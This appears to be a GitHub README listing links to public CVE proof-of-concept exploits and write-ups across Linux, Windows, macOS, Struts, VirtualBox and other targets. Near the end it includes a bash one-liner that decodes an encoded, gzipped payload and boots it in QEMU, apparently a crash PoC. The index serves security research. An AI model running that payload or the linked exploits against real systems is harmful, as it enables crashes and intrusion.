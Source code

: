 # CVEs and PoCs Resources

## Genereal

Some CVEs PoCs repos on github or internet.

- First, see: [Awesome CVE PoC](https://github.com/qazbnm456/awesome-cve-poc) by [qazbnm456](https://github.com/qazbnm456).
- To search (without PoCs): [cve-search](https://github.com/cve-search/cve-search) you can use it off-line too.
- This is a nice Wrapper:[vFeed](https://github.com/toolswatch/vFeed).
- Automated Generation of Proofs of Vulnerability with [S2E](https://github.com/S2E/docs/blob/master/src/Tutorials/pov.rst)
- [SecurityExploits](https://github.com/Semmle/SecurityExploits): This repository contains proof-of-concept exploits developed by the Semmle Security Research Team. We always disclose security vulnerabilities responsibly, so this repository only contains exploits for vulnerabilities which have already been fixed and publicly disclosed.

## Linux

- Spectre : [CVE-2017-5753,CVE-2017-5715](https://gist.github.com/Badel2/ba8826e6607295e6f26c5ed098d98d27)
- Dirty Cow: [CVE-2016-5195](https://github.com/scumjr/dirtycow-vdso) [Others](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
- "Root" via dirtyc0w privilege escalation [exploit](https://gist.github.com/Arinerron/0e99d69d70a778ca13a0087fa6fdfd80)
- Huge Dirty Cow: [CVE-2017-1000405](https://github.com/bindecy/HugeDirtyCowPOC)
- SMEP,SMAP and Chrome Sandbox: [CVE-2017-5123](https://salls.github.io/Linux-Kernel-CVE-2017-5123/)
- SambaCry: [CVE-2017-7494](https://securelist.com/sambacry-is-coming/78674/)
- The Stack Clash: [CVE-2017-1000364](https://blog.qualys.com/securitylabs/2017/06/19/the-stack-clash)
- GoAhead web server: [CVE-2017-17562](https://www.elttam.com.au/blog/goahead/)
- [New bypass and protection techniques for ASLR on Linux](http://blog.ptsecurity.com/2018/02/new-bypass-and-protection-techniques.html)
- Linux ASLR integer overflow: Reducing stack entropy by four: [CVE-2015-1593](http://hmarco.org/bugs/linux-ASLR-integer-overflow.html)
- Ubuntu CVES: [CVE-2017-16995](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_%20CVE-2017-16995.c), [netfilter](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_netfilter.c), [CVE-2013-1763](https://github.com/Spacial/csirt/blob/master/PoCs/ubuntu_%20CVE-2013-1763.c)
- Linux Kernel Version 4.14 - 4.4 (Ubuntu && Debian): [CVE-2017-16995](https://github.com/iBearcat/CVE-2017-16995)
- Meltdown/Spectre: [Understanding Spectre and Meltdown Vulnerability](https://miuv.blog/2018/03/20/understanding-spectre-and-meltdown-vulnerability-part-2/)
- Linux Kernel TCP implementation vulnerable to Denial of Service: [CVE-2018-5390](https://www.kb.cert.org/vuls/id/962459)
- Linux Kernel Vulnerability Can Lead to Privilege Escalation: Analyzing [CVE-2017-1000112](https://securingtomorrow.mcafee.com/mcafee-labs/linux-kernel-vulnerability-can-lead-to-privilege-escalation-analyzing-cve-2017-1000112/). repo: [kernel-exploits](https://github.com/xairy/kernel-exploits): A bunch of proof-of-concept exploits for the Linux kernel.
- Malicious Command Execution via bash-completion: [CVE-2018-7738](https://blog.grimm-co.com/post/malicious-command-execution-via-bash-completion-cve-2018-7738/)
- An integer overflow flaw was found in the Linux kernel's create_elf_tables() function: [CVE-2018-14634](https://access.redhat.com/security/cve/cve-2018-14634)
- [This repo records all the vulnerabilities of linux software I have reproduced in my local workspace](https://github.com/VulnReproduction/LinuxFlaw)
- [linux-kernel-exploitation](https://github.com/xairy/linux-kernel-exploitation): A bunch of links related to Linux kernel exploitation

## Solaris

- Kernel Level Privilege Escalation in Oracle Solaris: [CVE-2018-2892](https://www.trustwave.com/Resources/SpiderLabs-Blog/CVE-2018-2892---Kernel-Level-Privilege-Escalation-in-Oracle-Solaris/)

## Windows

- Office: [CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
- WebDAV: [CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)
- WSDL Parser: [CVE-2017-8759](https://github.com/Voulnet/CVE-2017-8759-Exploit-sample)
  - MS .NET: [CVE-2017-8759](https://github.com/bhdresh/CVE-2017-8759)
  - WPAD/PAC: [aPAColypse now](https://googleprojectzero.blogspot.com.br/2017/12/apacolypse-now-exploiting-windows-10-in_18.html)
  - Meltdown/Spectre:[CVE-2017-5754,CVE-2017-5715](https://github.com/ionescu007/SpecuCheck)
  - Packager OLE: [CVE-2018-0802](https://github.com/rxwx/CVE-2018-0802)
  - Integer Overflow: [Integer Overflow](https://github.com/k0keoyo/Dark_Composition_case_study_Integer_Overflow)
  - Hardcore corruption of my execve() vulnerability in WSL: [CVE-2018-0743](https://github.com/saaramar/execve_exploit)
  - Privilege Escalation Vulnerability in Windows Standard Collector Service: [CVE-2018-0952](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service)
  - [Exploit Published for Windows Task Scheduler Zero-Day](https://www.securityweek.com/exploit-published-windows-task-scheduler-zero-day). [poc](https://github.com/SandboxEscaper/randomrepo)
  - [PowerPool](https://www.welivesecurity.com/2018/09/05/powerpool-malware-exploits-zero-day-vulnerability/) malware exploits ALPC LPE zero-day vulnerability
  - You can't contain me! :: Analyzing and Exploiting an Elevation of Privilege Vulnerability in Docker for Windows: [CVE-2018-15514](https://srcincite.io/blog/2018/08/31/you-cant-contain-me-analyzing-and-exploiting-an-elevation-of-privilege-in-docker-for-windows.html)
- [Invoke-WMILM](https://github.com/Cybereason/Invoke-WMILM): This is a PoC script for various methods to acheive authenticated remote code execution via WMI, without (at least directly) using the Win32_Process class. The type of technique is determined by the "Type" parameter.
- Use-after-free (UAF) vulnerability: [CVE-2018-8373](https://blog.trendmicro.com/trendlabs-security-intelligence/new-cve-2018-8373-exploit-spotted/)
- Microsoft Edge RCE: [CVE-2018-8495](https://leucosite.com/Microsoft-Edge-RCE/)
- Device Guard/CLM bypass using MSFT_ScriptResource: [CVE-2018–8212](https://posts.specterops.io/cve-2018-8212-device-guard-clm-bypass-using-msft-scriptresource-b6cc2318e885)
- [A PoC function to corrupt the g_amsiContext global variable in clr.dll in .NET Framework Early Access build 3694](https://gist.github.com/mattifestation/ef0132ba4ae3cc136914da32a88106b9)
- [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits): windows-kernel-exploits Windows平台提权漏洞集合

## macOS/iOS

- RootPiper:  [Demo/PoC](https://github.com/Shmoopi/RootPipe-Demo)  [Tester](https://github.com/sideeffect42/RootPipeTester)
  - [Mac Privacy: Sandboxed Mac apps can record your screen at any time without you knowing](https://github.com/KrauseFx/krausefx.com/blob/master/_posts/2018-02-10-mac-privacy-sandboxed-mac-apps-can-take-screenshots.md) by [Felix Krause](https://github.com/KrauseFx)
- [ROPLevel6 Writeup](https://github.com/shmoo419/ExploitChallengeWriteups/blob/master/ROPLevel6/Writeup.md)
- Escaping the sandbox by misleading bluetoothd:[CVE-2018-4087](https://blog.zimperium.com/cve-2018-4087-poc-escaping-sandbox-misleading-bluetoothd)
- [Reexport symbols for Mach-O and ELF.](https://github.com/xerub/reexport)
- [Jailbreak for iOS 10.x 64bit devices without KTRR](https://github.com/tihmstar/doubleH3lix)
- MS Office 2016 for Mac Privilege Escalation via a Legacy Package: [CVE-2018–8412](https://medium.com/0xcc/cve-2018-8412-ms-office-2016-for-mac-privilege-escalation-via-a-legacy-package-7fccdbf71d9b)
- blanket: Mach port replacement vulnerability in launchd on iOS 11.2.6 leading to sandbox escape, privilege escalation, and codesigning bypass ([CVE-2018-4280](https://github.com/bazad/blanket))
- brokentooth: POC for [CVE-2018-4327](https://github.com/omerporze/brokentooth)
- Kernel RCE caused by buffer overflow in Apple's ICMP packet-handling code: [CVE-2018-4407](https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407)
- [Offensive testing to make Dropbox (and the world) a safer place](https://blogs.dropbox.com/tech/2018/11/offensive-testing-to-make-dropbox-and-the-world-a-safer-place/)
- [WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit): Safari 12.1.1

## Android

- [Please Stop Naming Vulnerabilities](https://pleasestopnamingvulnerabilities.com): Exploring 6 Previously Unknown Remote Kernel Bugs Affecting Android Phones

## Java

- Spring Data Commons: [CVE-2018-1273](https://gist.github.com/matthiaskaiser/bfb274222c009b3570ab26436dc8799e)

## Apache Struts

- How to find 5 RCEs in Apache Struts with Semmle QL: [CVE-2018-11776](https://lgtm.com/blog/apache_struts_CVE-2018-11776)
- Semmle Discovers Critical Remote Code Execution Vulnerability in Apache Struts: [CVE-2018-11776](https://semmle.com/news/apache-struts-CVE-2018-11776), [docker Poc](https://github.com/jas502n/St2-057), [other poc](https://github.com/mazen160/struts-pwn_CVE-2018-11776)
- [Apache Struts Vulnerability POC Code Found on GitHub](https://news.hitb.org/content/apache-struts-vulnerability-poc-code-found-github)
- [struts-pwn](https://github.com/mazen160/struts-pwn_CVE-2018-11776): An exploit for Apache Struts CVE-2018-11776

## BMC

- HPE iLO4: [CVE-2017-12542](https://github.com/airbus-seclab/ilo4_toolbox/blob/master/README.rst)

## x86

- Spectre: [CVE-2017-5753,CVE-2017-5715](https://spectreattack.com/)
- Meltdown: [CVE-2017-5754](https://meltdownattack.com/)
- Cyberus: [Meltdown](http://blog.cyberus-technology.de/posts/2018-01-03-meltdown.html)
- L1 Terminal Fault: [CVE-2018-3615/CVE-2018-3620/CVE-2018-3646/INTEL-SA-00161](https://software.intel.com/security-software-guidance/software-guidance/l1-terminal-fault)

## ARM

- [ARM exploitation for IoT – Episode 3](https://quequero.org/2017/11/arm-exploitation-iot-episode-3/)
- [Multiple vulnerabilities found in Wireless IP Camera](https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html#backdoor-account): CVE-2017-8224, CVE-2017-8222, CVE-2017-8225, CVE-2017-8223, CVE-2017-8221
- [DoubleDoor](https://blog.newskysecurity.com/doubledoor-iot-botnet-bypasses-firewall-as-well-as-modem-security-using-two-backdoor-exploits-88457627306d), IoT Botnet bypasses firewall as well as modem security using two backdoor exploits: CVE-2015–7755 and CVE-2016–10401
- [i.MX7 M4 Atomic Cache Bug](https://rschaefertech.wordpress.com/2018/02/17/imx7-hardware-bug/)

## VirtualBox

- From Compiler Optimization to Code Execution - VirtualBox VM Escape: [CVE-2018-2844](https://www.voidsecurity.in/2018/08/from-compiler-optimization-to-code.html). [poc](https://github.com/renorobert/virtualbox-cve-2018-2844/)
- [VirtualBox 3D PoCs & exploits](https://github.com/niklasb/3dpwn)
- [Multiple Vulnerabilities on Kerui Endoscope Camera](https://utkusen.com/blog/multiple-vulnerabilities-on-kerui-endoscope-camera.html)
- [virtualbox_e1000_0day](https://github.com/MorteNoir1/virtualbox_e1000_0day):  VirtualBox E1000 Guest-to-Host Escape

## Others

- PHPMailer: [CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)
- Apache Tomcat: [CVE-2017-12617](https://github.com/cyberheartmi9/CVE-2017-12617)
- Palo Alto Networks firewalls: Palo Alto Networks firewalls remote root code execution [CVE-2017-15944](http://seclists.org/fulldisclosure/2017/Dec/38)
- [https://fail0verflow.com/blog/2017/ps4-namedobj-exploit/](https://fail0verflow.com/blog/2017/ps4-namedobj-exploit/) and  [A fully implemented kernel exploit for the PS4 on 4.05FW](https://github.com/Cryptogenic/PS4-4.05-Kernel-Exploit)
- [HOW TO HACK A TURNED-OFF COMPUTER, OR RUNNING UNSIGNED CODE IN INTEL ME](https://www.blackhat.com/docs/eu-17/materials/eu-17-Goryachy-How-To-Hack-A-Turned-Off-Computer-Or-Running-Unsigned-Code-In-Intel-Management-Engine-wp.pdf) (CVE-2017-5705, CVE-2017-5706, CVE-2017-5707), [github](https://github.com/ptresearch/unME11)
- Nintendo Switch JailBreak PoC:[CVE-2016-4657](https://github.com/iDaN5x/Switcheroo/wiki/Article)
- [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
- [Geovision Inc. IP Camera](https://github.com/mcw0/PoC/blob/master/Geovision%20IP%20Camera%20Multiple%20Remote%20Command%20Execution%20-%20Multiple%20Stack%20Overflow%20-%20Double%20free%20-%20Unauthorized%20Access.txt), with a lot others in this [repo](https://github.com/mcw0/PoC)
- [Zero-day vulnerability in Telegram](https://securelist.com/zero-day-vulnerability-in-telegram/83800/)
- PHP PrestaShop 1.6.x Privilege Escalation: [CVE-2018-13784](https://www.ambionics.io/blog/prestashop-privilege-escalation)
- [Bug or Backdoor](https://0x09al.github.io/security/ispconfig/exploit/vulnerability/2018/08/20/bug-or-backdoor-ispconfig-rce.html): Exploiting a Remote Code Execution in ISPConfig by 0x09AL Security blog.
- SSH Exploit written in Python for CVE-2018-15473 with threading and export formats: [CVE-2018-15473](https://github.com/Rhynorater/CVE-2018-15473-Exploit), [analysis](https://sekurak.pl/openssh-users-enumeration-cve-2018-15473/)
- [RICOH MP 2001 Printer Cross Site Scripting ≈ Packet Storm](https://packetstormsecurity.com/files/149443/RICOH-MP-2001-Printer-Cross-Site-Scripting.html), [code](https://dl.packetstormsecurity.net/1809-exploits/richomp2001-xss.txt), [Cross-Site Scripting](https://www.exploit-db.com/exploits/45460/)
- Oracle WebLogic WLS-WSAT Remote Code Execution Exploit: [CVE-2017-10271](https://github.com/kkirsche/CVE-2017-10271)
- WebLogic Exploit: [CVE-2017-10271](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
- Talos Vulnerability Deep Dive: Sophos HitmanPro.Alert vulnerability -  [CVE-2018-3971](https://blog.talosintelligence.com/2018/11/TALOS-2018-0636.html)
- [phpLdapAdmin multiple vulns](https://github.com/opsxcq/exploit-phpldapadmin-remote-dump): phpldapadmin remote exploit and vulnerable container.
- [JPEG [JAY-peg]](https://github.com/corkami/docs/blob/master/images/jpeg.md), some pocs [JPEG PoCs](https://github.com/corkami/pocs/blob/master/images/jpg/README.md)
- Kubernets: [CVE-2018-1002105](https://github.com/evict/poc_CVE-2018-1002105)
- QEMU: vga: OOB read access during display update: [CVE-2017-13672](https://twitter.com/David3141593/status/903284919803277312),
- Exploiting LaTeX with [CVE-2018-17407](http://nickroessler.com/latex-cve-2018-17407/)
- GitHub Desktop RCE (OSX)[H1-702 2018](https://pwning.re/2018/12/04/github-desktop-rce/), [poc](https://github.com/0xACB/github-desktop-poc/)
- [unprivileged users with UID > INT_MAX can successfully execute any systemctl command (#74)](https://gitlab.freedesktop.org/polkit/polkit/issues/74)
- Authenticated RCE in [Polycom Trio 8800](http://unkl4b.github.io/Authenticated-RCE-in-Polycom-Trio-8800-pt-1/), pt.1
- Tenable Research Advisory: Zoom Unauthorized Command Execution - [CVE-2018-15715](https://www.tenable.com/blog/tenable-research-advisory-zoom-unauthorized-command-execution-cve-2018-15715)
- [Crash Chrome 70 with the SQLite Magellan bug](https://worthdoingbadly.com/sqlitebug/) [code](https://github.com/zhuowei/worthdoingbadly.com/blob/master/_posts/2018-12-14-sqlitebug.html)
- PoC for Foxit Reader: [CVE-2018-14442](https://github.com/payatu/CVE-2018-14442)

'''bash
$ echo H4sICH0mqFkAA3BvYwDbweS/W8LxrMCuK8wbZN85bWh494VhFIwUELoKAIJvFIwAAgAA | base64 -d | gunzip > a && qemu-system-i386 -vga cirrus a
'''

## Additions

Please, send pull requests for new additions.

 Thanks!
